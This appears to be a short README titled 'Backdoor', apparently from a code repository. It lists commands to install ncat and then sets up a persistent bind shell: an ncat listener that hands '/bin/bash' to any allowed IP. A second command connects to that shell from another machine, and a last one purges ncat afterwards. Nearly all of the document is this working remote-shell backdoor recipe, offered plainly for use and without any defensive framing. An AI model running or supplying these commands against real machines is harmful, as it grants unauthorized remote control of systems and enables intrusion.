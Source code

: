 # Backdoor 
## Install ncat on the local box
### Apt-get (Install)
'sudo apt-get update''
'sudo apt-get -y install ncat''

### Apt (Install)
'sudo apt update'
'sudo apt -y install ncat'

### Aptitude (Install)
'sudo aptitude update'
'sudo aptitude -y install ncat'

## Local box that will be backdoored into 
'ncat -k -nvlp <port> -e "/bin/bash" --allow <ip's go here>'

## Box that will backdoor into local machine 
'ncat -nv <ip address of local box> <port>'



### If ncat needs to be deleated
'sudo apt-get -y autoremove --purge ncat'

